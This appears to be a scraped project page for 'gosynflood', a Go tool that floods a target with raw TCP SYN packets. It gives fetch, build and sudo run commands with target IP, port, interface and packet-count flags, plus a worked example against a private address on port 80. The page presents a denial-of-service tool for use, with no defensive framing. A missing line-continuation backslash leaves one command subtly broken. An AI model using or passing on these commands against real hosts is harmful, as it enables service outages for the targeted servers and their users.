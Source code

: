 
###### gosynflood - Repeatedly Send Raw TCP SYN Packets

<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood \
    -t &lt;target IPV4 address&gt; \
    -p &lt;port number&gt; \
    -i &lt;network interface&gt;
    -n &lt;number of packets&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0 -n 500
  </code>
</pre>

<pre>
  <code>
-t private or public IP address of webserver
-p port number (not required (defaults to port 80 if not provided)
-i network interface (run program without -i to see found interfaces)
-n number of TCP packets to send (defaults to 1000 if not provided)
  </code>
</pre>

